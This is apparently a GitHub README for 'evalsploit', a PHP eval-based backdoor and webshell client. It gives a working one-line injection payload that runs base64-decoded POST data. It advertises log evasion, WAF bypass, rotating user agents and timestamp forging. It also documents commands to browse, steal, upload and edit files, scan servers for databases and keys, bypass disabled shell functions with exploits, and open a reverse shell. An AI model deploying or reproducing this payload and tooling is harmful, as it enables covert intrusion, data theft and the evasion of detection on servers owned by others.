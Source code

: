# [evalsploit по-русски](README_RU.md)

# evalsploit
Backdoor based on the `eval` function


### Features

-   **Stealth**
    -   Works on POST requests, practically invisible to logs
    -   Built-in WAF bypass
    -   New user agent every new session
    -   Stealth operation setting


-   **Universal**
    -   Payload can be injected in any part of the php code
    -   Suitable for working with servers on Linux, Windows, Mac OS

# Manual

#### Getting started

1) Use the payload to infect PHP or as an independent shell:
`if(isset($_POST['Z'])){@eval(base64_decode(str_replace($_POST['V'], '' ,$_POST['Z'])));die();}`
3) When starting the program, evalsploit will require a link to the file with the payload
4) When changing the `send` module (see "program setup"), use the `gen` command to generate a new payload

#### Working with the file system

-   `ls`: list of files in the directory
	-   Setting `ls`: based on the DirectoryIterator function (stands by default)
	-   Setting `dir`: based on the ScanDir function

-   `cp`: copying files
    -   Use the separator ` : ` (/what.txt : /where/what.txt )

-   `cd`: moving through the file system

-	`mkd`: create a new directory

-	`upl`: upload a file to the server

-	`home`: back to \_\_DIR\_\_

-	`pwd`: print the active directory

#### Working with files

-   `cat`: print the file contents
    -   Setting `html`: based on the htmlentities function
	-   Setting `base64`: based on the base64_encode\base64_decode function (set as default)

-   `rm`: delete file

-   `dl`: download file (to the /download folder)
	-	Does not work well with files larger than 100 MB
	
-   `edit`: edit file contents
	-	Does not work well with files larger than 100 MB

-	`mkf`: create new file

-	`touch`: change file datestamp
	-	Use the ` set time ` separator (file.рhр settime Year-Month-Day Hour:Minute:Second)

-	`stat`: file information

-	`ren`: rename file
	-	Use the separator ` : ` (/where/old.txt : new.php )


#### Working with the evalsploit system

-   `run`: switch to command line mode
	-	`exit` to exit the mode
	-	Supports exec, shell_exec, system, passthru, popen, proc_open, expect_popen, pcntl_exec, do
	
-	`info`: server informtion
	-	php version, OS
	
-	`scan`: scanning the selected directory
	-	Search for system PHP, databases, keys etc
	
-	`exploit`: bypassing disabled command line with built-in exploits, activates the command line mode
	-	`exit` to exit the mode

-	`reverse`: reverse-shell - `reverse IP:PORT`
	
-	`gen`: generating a payload depending on the send module
	
-	`help`: home screen
	
-	`exit`: exit
	
	
	
#### Program Setup

-	`set`: configuring modules. To view the list of parameters use `set module help`
	-	Instead of `help` acceptable `-h`, `h`, `?`, `/?`)
	-	**run**: `exec`, `shell_exec`, `system`, `passthru`, `popen`, `proc_open`, `expect_popen`, `pcntl_exec`, `do`
	-	**ls**: `ls`, `dir`
	-	**cat**: `html`, `base64`
	-	**silent**: `1`, `0` (Stealth)
	-	**reverse**: `ivan`, `monkey` 
	-	**send**: `bypass`, `classic`, `simple` (send mmodule)
	
